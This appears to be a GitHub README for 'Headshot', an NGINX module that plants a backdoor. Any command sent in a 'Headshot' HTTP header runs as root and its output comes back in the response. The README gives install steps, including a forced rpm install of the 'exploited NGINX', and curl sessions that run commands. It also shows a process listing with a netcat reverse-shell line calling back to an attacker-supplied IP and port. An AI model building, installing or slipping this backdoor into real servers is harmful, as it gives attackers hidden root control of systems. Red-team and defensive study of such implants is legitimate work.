 # Headshot
NGINX module to allow for RCE through a specific header. Also forces NGINX to run as root.


## Installation
There is a install script provided in the repo. It will pull down NGINX and compile it with the module. Then NGINX directory will be setup in `/usr/local/nginx` (NGINX default). After this the `NGX_HTTP_CONTENT_PHASE` is hooked and the module will be running in NGINX. In addition, the rpm file provided can be used to install the exploited NGINX by running the command below.

```
rpm -U nginx-1.12.2-2.el7.x86_64.rpm --nodeps --force
```


## Usage
To use the Headshot simply supply your command as a value to the `Headshot` HTTP header. The output (stdout or stderr) of your command will be the response body of the command run. If there is no stdout or stderr from the command, then the response body will obviously be empty and a helpful string is returned. An example or two is shown below.

```
[root@localhost Headshot]# curl localhost --header "Headshot: ls -la /tmp"
total 4
drwxrwxrwt.  8 root root 123 Nov 30 11:39 .
dr-xr-xr-x. 17 root root 224 Oct 30 14:11 ..
drwxrwxrwt.  2 root root  19 Nov 29 22:23 .ICE-unix
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .Test-unix
-r--r--r--.  1 root root  11 Nov 29 22:23 .X0-lock
drwxrwxrwt.  2 root root  16 Nov 29 22:23 .X11-unix
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .XIM-unix
drwx------.  2 root root  20 Nov 29 22:24 .esd-0
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .font-unix
[root@localhost Headshot]# curl localhost --header "Headshot: touch /tmp/hello"
<-- no stderr/stdout from your command -->
[root@localhost Headshot]# curl localhost --header "Headshot: ls -la /tmp"
total 4
drwxrwxrwt.  8 root   root   136 Nov 30 11:39 .
dr-xr-xr-x. 17 root   root   224 Oct 30 14:11 ..
drwxrwxrwt.  2 root   root    19 Nov 29 22:23 .ICE-unix
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .Test-unix
-r--r--r--.  1 root   root    11 Nov 29 22:23 .X0-lock
drwxrwxrwt.  2 root   root    16 Nov 29 22:23 .X11-unix
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .XIM-unix
drwx------.  2 root   root    20 Nov 29 22:24 .esd-0
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .font-unix
-rw-rw-rw-.  1 nobody nobody   0 Nov 30 11:39 hello
[root@localhost Headshot]# curl localhost --header "Headshot: not_a_command"
sh: 1: not_a_command: not found
```
If the header is not supplied then the server will respond to requests as normal. See below for example.
```
[root@localhost Headshot]# curl localhost
<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
    body {
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, the nginx web server is successfully installed and
working. Further configuration is required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
<a href="http://nginx.com/">nginx.com</a>.</p>

<p><em>Thank you for using nginx.</em></p>
</body>
</html>
```

For those curious, if one were to setup a reverse shell from this exploit and a blue team member ran `ps -fax` then they would see something like the following output while the shell was active.

```
 17622 ?        Ss     0:00  \_ nginx: master process /usr/local/nginx/sbin/nginx
 17623 ?        S      0:00      \_ nginx: worker process
 17719 ?        S      0:00          \_ sh -c nc -c /bin/bash {YOUR_IP} {YOUR_PORT} 2>&1
 17720 ?        S      0:00              \_ sh -c /bin/bash
 17721 ?        S      0:00                  \_ /bin/bash
```

## Resources
[The foremost resource on NGINX Modules](https://www.evanmiller.org/nginx-modules-guide.html)

[A basic hello world module](https://github.com/perusio/nginx-hello-world-module/)

[The NGINX Source begins to be helpful after you loose sanity](https://github.com/nginx/nginx/)

[The NGINX API Documentation also helps](https://www.nginx.com/resources/wiki/extending/api/utility/)

[Also not a bad small guide](http://www.nginxguts.com/2011/02/http-modules/)
[From the same source as above but goes over NGINX Phases](http://www.nginxguts.com/2011/01/phases/)

[This would be the guide to follow to dynamically link the module](https://www.nginx.com/blog/compiling-dynamic-modules-nginx-plus/)

[This is where I go the idea to hook the NGX_HTTP_CONTENT_PHASE to avoid directive use](http://www.nginx-discovery.com/2011/02/day-21-http-handler-vs-content-phase.html)
